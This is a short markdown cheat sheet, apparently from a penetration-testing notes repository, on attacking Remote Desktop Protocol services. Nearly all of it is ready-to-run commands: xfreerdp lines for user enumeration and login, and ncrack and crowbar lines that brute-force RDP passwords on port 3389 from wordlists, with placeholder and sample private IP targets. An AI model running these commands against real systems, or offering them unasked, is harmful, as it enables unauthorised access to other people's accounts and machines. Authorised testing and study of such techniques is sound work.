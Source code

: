# Remote Desktop Protocol

## xfreerdp

### Simple User Enumeration for Windows Target (kerberos based)

`xfreerdp /v:<target_ip> -sec-nla /u:""`

`xfreerdp /v:192.168.0.32 -sec-nla /u:""`

## login

`xfreerdp /u:<user> /g:<domain> /p:<pass> /v:<target_ip>`

`xfreerdp /u:administrator /g:grandbussiness /p:bla /v:192.168.1.34`

### Wordlist based BruteForce

### NCRACK

`ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389`

`ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389`

### Crowbar

`crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v`

`crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v`